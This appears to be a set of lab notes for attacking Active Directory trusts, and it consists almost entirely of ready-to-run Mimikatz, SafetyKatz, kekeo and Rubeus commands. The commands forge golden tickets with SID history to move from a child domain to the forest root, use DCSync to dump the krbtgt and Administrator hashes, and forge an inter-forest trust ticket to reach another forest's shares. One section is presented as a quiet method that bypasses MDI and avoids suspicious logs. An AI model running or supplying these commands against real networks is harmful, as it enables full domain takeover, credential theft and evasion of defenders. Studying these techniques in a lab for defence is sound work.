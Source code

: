 ## Child to Parent using krbtgt hash.We will abuse sIDhistory once again
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'`
## In the above command, the mimkatz option "/sids" is forcefully setting the sIDHistory for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group.

## On any machine of the current domain
`Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'`
`ls \\mcorp-dc.moneycorp.local.kirbi\c$`
`gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local`
`C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"`
## Child to Parent using krbtgt hash (Reccomended way, really silent and bypasses MDI)Avoid suspicious logs by using Domain Controllers group. • S-1-5-21-2578538781-2508153159-3419410681-516 – Domain Controllers • S-1-5-9 – Enterprise Domain Controllers
`Invoke-Mimikatz -Command '"kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"'`
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:mcorp\Administrator /domain:moneycorp.local"'`

## Across forest trusts will not work as the above as there is SID filtering. You can only access resources that are explicitly allowed, between forests and you do it the same way as above. In this case the shares
`Once again, we require the trust key for the inter-forest trust.
Invoke-Mimikatz -Command '"lsadump::trust /patch"'`
## An inter-forest TGT can be forged
`Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:cd3fb1b0b49c7a56d285ffdbb1304431 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi"'`
##  Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.
`.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbiCIFS/eurocorp-dc.eurocorp.local`
## Use the TGS to access the targeted service.
`.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi`
`ls \\eurocorp-dc.eurocorp.local\forestshare\`
## Using Rubeus (using the same TGT which we forged earlier):
`Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi/service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt`
`ls \\eurocorp-dc.eurocorp.local\forestshare\`
